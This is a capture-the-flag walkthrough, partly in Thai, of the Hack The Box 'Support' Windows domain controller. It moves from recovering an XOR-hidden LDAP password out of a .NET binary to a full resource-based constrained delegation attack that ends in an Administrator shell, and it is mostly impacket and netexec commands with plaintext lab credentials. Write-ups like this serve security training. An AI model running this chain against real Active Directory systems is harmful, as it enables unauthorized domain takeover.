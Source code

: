 # Recon 

```bash
./scan.sh 10.10.11.174
[*] Running rustscan...
[*] Running nmap on ports: 53,88,135,139,389,445,464,593,636,9389,49667,49664,49676,49680,49704
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 09:22 +07
Nmap scan report for 10.10.11.174
Host is up (0.062s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-19 02:01:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49680/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-19T02:02:28
|_  start_date: N/A
|_clock-skew: -20m48s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.78 seconds

```


## Reverse UserInfo.exe using dnSpy 

![](./IMG/001.png)

FOUND 
```
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
XOR_KEY_1=armando 
XOR_KEY_2=223 (ฐาน 10)
```

![](./IMG/003.png)


## Verify Credential 

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

![](./IMG/004.png)

จากตัวอย่างจะเห็นว่าสามารถใช้งาน รหัสที่ได้มาได้ และมี Username เป็น Support 

```bash
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```

เราจะ SETUP โดยตั้งค่าเริ่มต้นเป็นผู้ใช้ support@support.htb โดยมีเป้าหมายไปที่ Domain Admin จะพบความเชื่อมโยงดังต่อไปนี้ 

![](./IMG/005.png)

## Ldap Search 

เราจะทำการค้นหาข้อมูลใน LDAP 

```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

![](./IMG/006.png)

เราจะเห็นว่ามี Info: มีข้อมูลที่เหมือนจะเป็นรหัสผ่าน 

==Cred FOUND:== Ironside47pleasure40Watchful

จากนั้นลองทดสอบ Dump ข้อมูลทั้งหมดจาก Ldap 

```bash
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap

grep Ironside *
```

## Shell as support 

ทดสอบโจมตีด้วย nxc เพื่อดูว่าวสามารถโจมตีไปที่โปรโตคอลอะไรได้บ้าง 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service support.htb -u 'support' -p 'Ironside47pleasure40Watchful'; done
```

![](./IMG/007.png)

จากตัวอย่างจะเห็นว่าสามารถโจมตีด้วย WinRm ได้ ซึ่งสามารถใช้ Evil-WInRM ได้ 

## Pass The Ticket 

```bash
impacket-addcomputer -method SAMR \
  -computer-name 'ATTACKERSYSTEM$' \
  -computer-pass 'Summer2018!' \
  -dc-host dc.support.htb \
  -dc-ip 10.10.11.174 \
  -domain-netbios support.htb \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-GetADUsers support.htb/support:Ironside47pleasure40Watchful -all | grep -i '$'

impacket-rbcd -delegate-from ATTACKERSYSTEM$ \
  -delegate-to DC$ \
  -action write \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-GetNPUsers support.htb/support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -request


## ข้อควรระวังการณีต้องการโจมตีแบบนี้จะต้องตรวจสอบเรื่องเวลาให้ตรงกันด้วย โดยใช้ ntpdate 
sudo ntpdate -u 10.10.11.174

impacket-getST -dc-ip 10.10.11.174 \
  -spn cifs/DC.support.htb \
  -impersonate Administrator \
  support.htb/ATTACKERSYSTEM$:Summer2018!


KRB5CCNAME=/home/administrator/Desktop/Administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass 

```


# PWNED